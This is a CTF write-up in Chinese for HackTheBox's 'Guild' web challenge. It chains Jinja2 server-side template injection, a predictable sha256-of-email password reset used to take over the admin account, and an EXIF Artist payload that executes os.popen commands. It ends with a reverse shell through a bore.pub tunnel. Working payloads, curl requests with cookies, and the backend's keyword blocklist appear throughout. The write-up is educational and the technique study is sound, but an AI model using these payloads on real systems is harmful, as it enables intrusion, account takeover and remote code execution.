


## 題目 - Guild
- EVENT: [CTF Try Out](https://ctf.hackthebox.com/event/1434)
- 種類: web
- 難度: easy
- 靶機: `94.237.49.90:46665`

### signup

訪問 `94.237.49.90:46665` 
先註冊 登入

### upload file
先到了可上傳檔案的地方
嘗試上傳 .php 但發現只 能上傳 `png, jpg, jpeg`
`http://94.237.49.90:46665/verification`

#### 製作 .jpg
```bash
convert -size 100x100 xc:white image.jpg    
```

先簡單上傳一張 image.jpg 
跳轉到 home page
發現上傳的圖片需要 `Guild-Master` 同意

### edit bio
`DashBoard` 跳回 home page 
`Profile` 跑到可編輯 bio 的地方
隨意編輯 bio 發現會反射到原畫面上


### share link
點擊 下方有個 `share your profile` 發現一組 `link`
`/user/amy`
> `amy` 是使用者名稱

嘗試連結 link 發現剛剛編輯的 bio 也有反射到這


### SSTI
嘗試 SSTI 先輸入簡單的 `{{1+1}}`
1. `http://94.237.49.90:46665/profile`
  
profile 沒有成功反射 2


2. `http://94.237.49.90:46665/user/amy`
  
user link 成功反射 2 ！！！

確認後端程式後
發現有 SSTI 漏洞
```bash
@views.route("/user/<link>")
def share(link):
    query = Validlinks.query.filter_by(validlink=link).first()
    if query:
        email = query.email
        query1 = User.query.filter_by(email=email).first()
        bio = Verification.query.filter_by(user_id=query1.id).first().bio
        temp = open("/app/website/templates/newtemplate/shareprofile.html", "r").read()
        return render_template_string(temp % bio, User=User, Email=email, username=query1.username)
```

嘗試印出 flag
但有 `/profile` 有 checkInput 沒辦法使用任意 cmd
```python
def checkInput(bio):
    payloads = [
        "*",
        "script",
        "alert",
        "debug",
        "%",
        "include",
        "html",
        "if",
        "for",
        "config",
        "img",
        "src",
        ".py",
        "main",
        "herf",
        "pre",
        "class",
        "subclass",
        "base",
        "mro",
        "__",
        "[",
        "]",
        "def",
        "return",
        "self",
        "os",
        "popen",
        "init",
        "globals",
        "base",
        "class",
        "request",
        "attr",
        "args",
        "eval",
        "newInstance",
        "getEngineByName",
        "getClass",
        "join"
    ]
    for x in payloads:
        if x in bio:
            return True
    return False


@views.route("/profile", methods=["GET", "POST"])
@login_required
def profile():
    query = Verification.query.filter_by(user_id=current_user.id).first()
    if query:

        if request.method == "POST":
            bio = request.form.get("bio")
            if not checkInput(bio):
                query.bio = bio
                db.session.commit()
                flash("Bio updated !", category="success")
                return render_template("profile.html", user=current_user, Bio=bio, User=User)
            else:
                flash("Avoid Bad Characters!", category="error")

        return render_template("profile.html", user=current_user, Bio=query.bio, User=User)
    else:
        flash("Submit your Badge for verification!", category="error")
        return redirect(url_for("views.verification"))

```

####  get admin email
改成印 admin 密碼 但發現也有加密
後來改印 admin email 
`{{User.query.filter_by(username="admin").first().email}}`

透過忘記密碼建立改密碼連結
可以看到後端是透過 email 做 sha256 加密
```python
@views.route("/forgetpassword", methods=["GET", "POST"])
def forgetpassword():
    if request.method == "POST":
        email = request.form.get("email")
        query = User.query.filter_by(email=email).first()
        flash("If email is registered then you will get a link to reset password!", category="success")
        if query:
            # send email the below link
            reset_url = str(hashlib.sha256(email.encode()).hexdigest())
            print(reset_url)
            new_query = Validlinks(email=email, validlink=reset_url)
            db.session.add(new_query)
            db.session.commit()
        
        return redirect(url_for("views.home"))

    return render_template("forgetpassword.html", user=current_user)
```

#### get changepasswd hash
我們可以把它拿過來直接使用取得改密碼的 hash  [sha256_encode.py](sha256_encode.py)
```bash
└─$ python3 sha266_encode.py
787f7542c0b4869e913d7a7d3a32b7002d1cb779604de853d7c384e2bccfb0db
```
或使用 `sha256sum` 加密
```bash
└─$ echo -n "6a36397441573374@master.guild" | sha256sum
787f7542c0b4869e913d7a7d3a32b7002d1cb779604de853d7c384e2bccfb0db  -   
```

#### create changepassword url
創建 admin 忘記密碼連結
```bash
└─$ curl -k -X POST http://94.237.49.90:46665/forgetpassword \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'email=6a36397441573374@master.guild'
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.
```

#### change admin password
進入 admin 的改密碼頁面
將密碼改成 admin
```bash
└─$ curl -k -X POST http://94.237.49.90:46665/changepasswd/787f7542c0b4869e913d7a7d3a32b7002d1cb779604de853d7c384e2bccfb0db   -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'password=admin'  
...
    <div class="alert alert-success alert-dismissible fade show" role="alert">
        Password Updated!
        <button type="button" class="btn-close" data-bs-dismiss="alert" aria-label="Close"></button>
    </div>

...
```

#### login admin
成功登入 admin 


發現 `/verify` 會顯示 jpg 的 Artist 屬性資料
```bash
@views.route("/verify",methods=["GET", "POST"])
@login_required
def verify():
    if current_user.username == "admin":
        if request.method == "POST":
            user_id = request.form.get("user_id")
            verf_id = request.form.get("verification_id")
            query = Verification.query.filter_by(id=verf_id).first()
            
            img = Image.open(query.doc)

            exif_table={}

            for k, v in img.getexif().items():
                tag = TAGS.get(k)
                exif_table[tag]=v

            if "Artist" in exif_table.keys():
                sec_code = exif_table["Artist"]
                query.verified = 1
                db.session.commit()
                return render_template_string("Verified! {}".format(sec_code))
            else:
                return render_template_string("Not Verified! :(")
    else:
        flash("Oops", category="error")
        return redirect(url_for("views.home"))
```

#### edit jpg artist
製作新的 jpg 
```bash
┌──(kali㉿kali)-[~/ctf/guild]
└─$ cp image.jpg image1.jpg
                                                                        
┌──(kali㉿kali)-[~/ctf/guild]
└─$ exiftool -overwrite_original -artist="{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}" image1.jpg 

    1 image files updated

┌──(kali㉿kali)-[~/ctf/guild]
└─$ exiftool image1.jpg
ExifTool Version Number         : 13.25
File Name                       : image1.jpg
Directory                       : .
File Size                       : 403 bytes
File Modification Date/Time     : 2025:11:04 12:12:12+08:00
File Access Date/Time           : 2025:11:04 12:12:12+08:00
File Inode Change Date/Time     : 2025:11:04 12:12:12+08:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 1
Y Resolution                    : 1
Resolution Unit                 : None
Artist                          : {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
Y Cb Cr Positioning             : Centered
Image Width                     : 100
Image Height                    : 100
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 1
Image Size                      : 100x100
Megapixels                      : 0.010

```
用 amy1 的 cookie 上傳新圖片
```bash
└─$ curl -k -X POST http://94.237.49.90:46665/verification -F 'file=@image1.jpg' -b 'remember_token=2|a66ef54621bdf91b88a8a19678ec9b7198e59918428f61f7a46194561d8ecf13432a87a6a769c16f209b9268e9acb7fa03e049201ac199896d5023b70b22aac0; session=.eJwlzjkOwkAMQNG7uKaY3Z5cJvIqaCekQtydkejfl_4Hzlh-PeF4r9sfcL4MDkhW1c0Qk2ZxFyUWz9IjsRrpxMZeLG_GKbzlLGipoDXtfTOl4WK9JJmRMQ0cY8w6yk49eEYxJYraJxM3rVobcefBpQeGtGqwR-7L1_-mwPcHgw4xDg.aQluzw.dDw_j7ZJpA4DbHY5Lp0L78eFq_s' 
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/dashboard">/dashboard</a>. If not, click the link.

```

#### get flag
用 admin cookie 訪問 `/verify` 成功取得 flag
```bash
└─$ curl -k -X POST http://94.237.49.90:46665/verify \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -b 'remember_token=1|d79f88a42583ac76fc585990ddd4f27f7632bf313e44b783b927a0afc5de9e4b48323bdb4fd3965366e5af8a15980291581bdfe448cce8b9fb30d34f839e6899; session=.eJwlzjkOwkAMQNG7uKaY3Z5cJvIqaCekQtydkejfl_4Hzlh-PeF4r9sfcL4MDkhW1c0Qk2ZxFyUWz9IjsRrpxMZeLG_GKbzlLGipoDXtfTOl4WK9JJmRMQ0cY8w6yk49eEYxJYraJxM3rVobcefBpQeGtGqwR-7L1_8mw_cHgwsxDQ.aQl3Bg.u4iuVfcBJgRVuiFMwPYuVE-sMIc' \
  --data 'user_id=2&verification_id=3' 
Verified! HTB{mu...5f}      
```

### POC
[exploit.py](exploit.py)


### 補充

#### 不一樣的 payload
```bash
──(kali㉿kali)-[~/ctf/guild]
└─$ exiftool -overwrite_original -artist="{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}" image4.jpg
 
    1 image files updated
                                                                            
┌──(kali㉿kali)-[~/ctf/guild]
└─$  curl -k -X POST http://94.237.52.164:34798/verification -b 'remember_token=2|a66ef54621bdf91b88a8a19678ec9b7198e59918428f61f7a46194561d8ecf13432a87a6a769c16f209b9268e9acb7fa03e049201ac199896d5023b70b22aac0; session=.eJwlzjkOwkAMQNG7uKaY3Z5cJvIqaCekQtydkejfl_4Hzlh-PeF4r9sfcL4MDkhW1c0Qk2ZxFyUWz9IjsRrpxMZeLG_GKbzlLGipoDXtfTOl4WK9JJmRMQ0cY8w6yk49eEYxJYraJxM3rVobcefBpQeGtGqwR-7L1_-mwPcHgw4xDg.aQluzw.dDw_j7ZJpA4DbHY5Lp0L78eFq_s'  -F 'file=@image4.jpg'
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/dashboard">/dashboard</a>. If not, click the link.

┌──(kali㉿kali)-[~/ctf/guild]
└─$ curl -k -X POST http://94.237.52.164:34798/verify \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -b 'remember_token=1|d79f88a42583ac76fc585990ddd4f27f7632bf313e44b783b927a0afc5de9e4b48323bdb4fd3965366e5af8a15980291581bdfe448cce8b9fb30d34f839e6899; session=.eJwlzjkOwkAMQNG7uKaY3Z5cJvIqaCekQtydkejfl_4Hzlh-PeF4r9sfcL4MDkhW1c0Qk2ZxFyUWz9IjsRrpxMZeLG_GKbzlLGipoDXtfTOl4WK9JJmRMQ0cY8w6yk49eEYxJYraJxM3rVobcefBpQeGtGqwR-7L1_8mw_cHgwsxDQ.aQl3Bg.u4iuVfcBJgRVuiFMwPYuVE-sMIc' \
  --data 'user_id=2&verification_id=5'
Verified! uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

```

了解原理後
找到 joiner 等其他 function 也都能成功
只要在 self._TemplateReference__context 透過 [test.py](test.py) env 能夠接到 `__globals__` 的方法都可以
因為後續就可以靠 `os.popen("cmd").read()` 取得 cmd


#### bore tcp tunnel
因為是 public ip 
所以第一次嘗試使用 bore 開一個 tcp tunnel
```bash
└─$ bore local 3000 --to bore.pub
2025-11-02T05:50:21.273897Z  INFO bore_cli::client: connected to server remote_port=45273
2025-11-02T05:50:21.274039Z  INFO bore_cli::client: listening at bore.pub:45273
2025-11-02T05:50:55.271459Z  INFO proxy{id=b719e5e1-91d5-41ba-b965-e27d00bd486a}: bore_cli::client: new connection
2025-11-02T05:50:55.494079Z  WARN proxy{id=b719e5e1-91d5-41ba-b965-e27d00bd486a}: bore_cli::client: connection exited with error err=could not connect to localhost:3000
2025-11-02T05:51:35.206623Z  INFO proxy{id=f240a1c3-a7c5-4bba-95aa-e399c75d609c}: bore_cli::client: new connection
^C

```
成功取得 shell
```bash
┌──(kali㉿kali)-[~/ctf/guild]
└─$ nc -nvlp 3000
listening on [any] 3000 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59836
/bin/sh: can't access tty; job control turned off
/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/app # ls 
flag.txt
guild
instance
main.py
requirements.txt
website
/app # cat flag.txt
HTB{mult1pl3_lo0p5_mult1pl3_h0les_dd4e4fe02ddefd78e2e3939bd3d3e481}/app # ^C
                          
```

**Note**: 此 writeup 僅用於教育目的,請勿在未經授權的系統上進行測試。